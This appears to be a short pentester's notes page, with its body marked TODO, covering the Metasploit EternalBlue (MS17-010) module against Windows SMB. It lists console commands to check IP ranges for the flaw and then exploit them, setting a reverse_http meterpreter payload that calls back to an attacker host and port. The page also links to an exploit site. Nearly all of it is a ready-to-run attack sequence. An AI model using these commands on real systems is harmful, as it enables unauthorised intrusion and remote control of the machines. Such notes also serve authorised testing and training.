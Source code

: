 # Metasploit

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue
```

```
msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <IP>/<CIDR>
```

```
msf exploit(windows/smb/ms17_010_eternablue) > check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

msf exploit(windows/smb/ms17_010_eternablue) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/smb/ms17_010_eternablue) > options

msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <target_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lhost <attacker_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lport <attacker_PORT>

msf exploit(windows/smb/ms17_010_eternablue) > run
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Remote Services/SMB|Vulnerability Assessment: SMB]]

- [Sploitify: Eternalblue MS17-010](https://sploitify.haxx.it/exploits/2017/MS17-010/)